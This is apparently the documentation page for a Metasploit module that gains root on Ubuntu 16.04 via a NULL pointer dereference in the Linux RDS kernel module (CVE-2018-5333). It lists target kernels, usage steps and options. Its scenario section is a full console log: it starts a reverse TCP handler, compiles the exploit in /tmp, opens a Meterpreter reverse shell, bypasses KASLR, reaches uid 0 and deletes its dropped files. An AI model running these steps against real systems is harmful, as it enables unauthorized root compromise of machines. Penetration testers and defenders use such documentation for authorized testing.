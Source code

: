 ## Description

  This module attempts to gain root privileges on Linux systems by abusing
  a NULL pointer dereference in the `rds_atomic_free_op` function in the
  Reliable Datagram Sockets (RDS) kernel module (rds.ko).

  Successful exploitation requires the RDS kernel module to be loaded.
  If the RDS module is not blacklisted (default); then it will be loaded
  automatically.

  This exploit supports 64-bit Ubuntu Linux systems, including distributions
  based on Ubuntu, such as Linux Mint and Zorin OS.

  Target offsets are available for:

  Ubuntu 16.04 kernels 4.4.0 <= 4.4.0-116-generic; and
  Ubuntu 16.04 kernels 4.8.0 <= 4.8.0-54-generic.

  This exploit does not bypass SMAP. Bypasses for SMEP and KASLR are included.
  Failed exploitation may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on various 4.4 and 4.8 kernels.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled executable.


## Scenarios

### Ubuntu 16.04 kernel 4.8.0-51-lowlatency #54~16.04.1-Ubuntu

  ```
  msf > use exploit/linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc 
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > check

  [+] System architecture x86_64 is supported
  [+] Linux kernel 4.8.0-51-lowlatency #54~16.04.1-Ubuntu is vulnerable
  [+] SMAP is not enabled
  [+] LKRG is not installed
  [+] grsecurity is not in use
  [+] rds.ko kernel module is loaded
  [*] The target appears to be vulnerable.
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] System architecture x86_64 is supported
  [+] Linux kernel 4.8.0-51-lowlatency #54~16.04.1-Ubuntu is vulnerable
  [+] SMAP is not enabled
  [+] LKRG is not installed
  [+] grsecurity is not in use
  [+] rds.ko kernel module is loaded
  [+] gcc is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/.zwl2ezPl' (250 bytes) ...
  [*] Launching exploit (timeout: 30)...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.206
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.206:48130) at 2019-12-21 02:22:40 -0500
  [+] Deleted /tmp/.aCNiWb9vps
  [+] Deleted /tmp/.zwl2ezPl
  [*] Linux RDS rds_atomic_free_op NULL pointer dereference local root (CVE-2018-5333)
  [*] [.] checking kernel version...
  [*] [.] kernel version '4.8.0-51-lowlatency #54~16.04.1-Ubuntu' detected
  [*] [~] done, version looks good
  [*] [.] checking system...
  [*] [~] done, looks good
  [*] [.] mapping null address...
  [*] [~] done, mapped null address
  [*] [.] KASLR bypass enabled, getting kernel base address
  [*] [.] trying /proc/kallsyms...
  [*] [-] kernel base not found in /proc/kallsyms
  [*] [.] trying syslog...
  [*] [.] done, kernel text:   ffffffffa7c00000
  [*] [.] commit_creds:        ffffffffa7ca6ed0
  [*] [.] prepare_kernel_cred: ffffffffa7ca72e0
  [*] [.] mmapping fake stack...
  [*] [~] done, fake stack mmapped
  [*] [.] executing payload 0x4027f7...
  [*] [+] got root

  meterpreter > getuid 
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.206
  OS           : Ubuntu 16.04 (Linux 4.8.0-51-lowlatency)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

